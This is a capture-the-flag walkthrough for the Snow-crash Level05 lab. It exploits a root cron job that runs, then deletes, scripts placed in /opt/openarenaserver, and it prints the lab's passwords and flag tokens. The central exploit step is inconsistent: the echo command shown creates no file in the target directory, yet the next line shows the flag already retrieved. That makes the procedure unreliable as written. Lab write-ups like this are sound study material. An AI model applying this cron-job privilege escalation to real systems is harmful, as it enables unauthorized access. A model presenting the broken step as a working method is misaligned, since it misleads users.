 ```yaml
---
title:  "Snow-crash Level05"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
---
```


#### 1. The password of `Level05` is the token that got from `Level04`.

```
ne2searoevaevoem4ov4ar8ap

```
#### 2. So, try login to `Level05` with the password we got from `Level04` and try to put the command 'ls -la'. We can see the file `Level05`. 
```
level05@localhost's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$
```

#### 3. Let's go inside in level05.
```bash
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

It says that there is a new mail. 

#### 4. So, I found the small hint from /var/mail/level05

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls -la
total 4
drwxrwsr-x  1 root mail  60 Mar  5  2016 .
drwxr-xr-x  1 root root 160 Mar 12  2016 ..
-rw-r--r--+ 1 root mail  58 Feb 13 16:49 level05
```

there is a file `level05`.

```bash
level05@SnowCrash:/var/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
So, I was looking for /usr/sbin/openarenaserver and we found a script as below. Let's take a look inside one by one.

```bash
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do 

	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
That means that the script goes through each file in the specified directory, sets a CPU time limit of 5 seconds for its execution, executes the script with debugging output, and then removes the script file.

We can't and should not put anything inside `/opt/openarenaserver` because this directory will be deleted in every 2 minutes, so we should put our file safely in `/tmp` file.

We therefore, need to create a bash script in that directory,to get the file and to make sure that the optut is redirected to a file in `/tmp`. So, the overall effect of this command is to create a file named `getflag05` in the `/opt/openarenaserver/` directory.

```bash
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05'
getflag > /tmp/flag05
level05@SnowCrash:/var/mail$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

#### 5.  We got a token for next `level06`

```
viuaaale9huek52boumoomioc
```